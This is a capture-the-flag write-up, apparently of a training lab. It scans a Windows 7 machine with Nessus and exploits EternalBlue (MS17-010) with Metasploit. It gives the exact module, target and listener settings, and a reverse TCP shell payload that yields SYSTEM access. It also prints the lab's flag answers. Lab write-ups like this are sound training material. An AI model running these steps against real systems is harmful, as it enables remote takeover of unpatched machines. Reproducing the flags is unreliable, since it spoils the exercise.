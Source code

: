 Victim IP - 10.10.132.215

I want to discover what vulnerabilities and ports are open on this victim IP before I can attempt to gain access.  This can be done by utilising an nmap scan using the --script vuln or by using Nessus Scanner.  

I am going to use a Nessus Scan.

![](screenshots/nessus_scan.png)

I select the Advanced Scan option and enter the IP 10.10.132.215.  The advanced Scan option will not only allow for host and port discovery, but vulnerabilities and other information.

The nessus scan results identify 25 vulnerabilities and the OS as a windows 7.  Investigating the Windows issues reveals the this machine is vulnerable to Eternal Blue  

![](Screenshots/nessus_scan_results.png)

![](Screenshots/eternal_blue.png)

We can use the metasploit exploit database to search for payloads associated with `ms17-010` (commonly known as eternal blue).

I execute `sudo msfdb init && msfconsole` to launch msfconsole.

Entering the command `search ms17-010` will search the databse for exploits associated with eternal blue.


![](Screenshots/msfconsole_ms17-010.png)

Multiple results have come up.  I will use the 1st exploit in the `0` index.  I can do this by entering the command `use exploit/windows/smb/ms17_010_eternalblue` or by entering `0`

We will then have to set the payload options by utilising the following commands:

**set rhosts 10.10.132.215**

**set lhost 10.4.66.178**

**set rport 445**

**set payload windows/x64/shell/reverse_tcp**

![](Screenshots/configuring_ms17-010_payload.png)

After setting the configuring the payload, executing the `run` command will launch the payload to the target.

![](Screenshots/root_access.png)

We have now gained remote root shell access to the windows Machine.  From here I attempt to navigate around the C drive to locate anything useful with a combination of `dir` and `cd..` commands.  

I locate flag1.txt in the C:\ folder.  The flag is revealed as `flag{access_the_machine}`

![](screenshots/flag1_txt.png)

![](screenshots/start_flag1_txt.png)

After poking around and ending up in C:\Users\Jon\Documents I locate the flag3.txt.  The flag is revealed as `flag{admin_documents_can_be_valuable}`

![](Screenshots/start_flag3_txt.png)

After some time I end up navigating to the C:\Windows\System32 - this is where crucial files are located that allow Windows to fucntion.  I cd into \config and locate flag2.txt.  The flag is revealed as `flag{sam_database_elevated_access}`

![](Screenshots/start_flag2_txt.png)

Entering the command `whoami` reveals that we the msf exploit we executed has given us nt authority\system access.

![](screenshots/systemAccess_whoami.png)
